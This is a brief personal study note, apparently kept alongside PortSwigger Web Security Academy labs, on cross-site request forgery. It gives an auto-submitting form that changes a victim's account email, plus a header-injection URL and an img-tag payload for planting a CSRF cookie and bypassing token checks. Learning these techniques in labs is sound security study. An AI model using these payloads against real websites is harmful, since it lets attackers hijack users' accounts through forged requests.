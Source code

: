 ## basic 
same as [[tools  & setup#Burp Suit | burp suit professional]]

```html
<form method="POST" action="https://vulnerable-website.com/my-account/change-email">
	<input type="hidden" name="email" value="anything%40web-security-academy.net">
</form> 
<script> 
document.forms[0].submit(); 
</script>
```
## Bypassing CSRF token validation
### token tied to non-session cookie 
(like when they use two *seperate frameworks* ) : [portswigger](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)
#### csrfKey cookie injection 

> 1. `/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None`

#### using img tag for delivering the crafted link

>1. `<img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">`
